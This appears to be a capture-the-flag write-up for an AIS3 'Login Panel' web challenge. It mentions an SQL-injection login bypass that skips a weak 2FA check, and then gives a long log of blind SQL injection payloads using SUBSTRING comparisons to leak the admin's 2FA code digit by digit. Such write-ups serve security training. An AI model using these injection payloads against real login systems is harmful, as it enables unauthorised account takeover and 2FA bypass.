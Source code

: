 ## Login Panel

Easy solution: After the login, we are at 2FA page, but the check of the dashboard is bad so we can just jump to the dashboard after we sql inject the username and password.

My solution is really complicated: blind sql injection.

We can use `SUBSTR` and binary search to leak the admin 2FA code. Which took me about 40 minutes since there's recaptcha. I'm just too stupid.

`AIS3{' UNION SELECT 1, 1, 1, 1 WHERE ({condition})--}`

My process: (Warning: very lengthy)

```sql
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 1, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 1, 1) < '7' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 1, 1) < '9' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 1, 1) > '8' -- T
9
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 2, 1) < '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 2, 1) > '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 2, 1) > '4' -- F
94
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 3, 1) > '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 3, 1) > '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 3, 1) > '4' -- T
945
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 4, 1) > '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 4, 1) > '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 4, 1) > '8' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 4, 1) < '9' -- F
9459
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 5, 1) > '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 5, 1) > '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 5, 1) > '8' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 5, 1) < '9' -- F
94599
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) > '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) > '3' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) > '1' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) > '2' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) < '3' -- F
945993
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 7, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 7, 1) > '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 7, 1) > '8' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 7, 1) < '9' -- F
9459939
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) > '7' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) > '6' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) < '6' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) > '5' -- F
94599395
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) < '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) < '3' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) > '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) < '4' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) > '4' -- F
945993954
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) < '7' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) > '8' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) < '8' -- T
```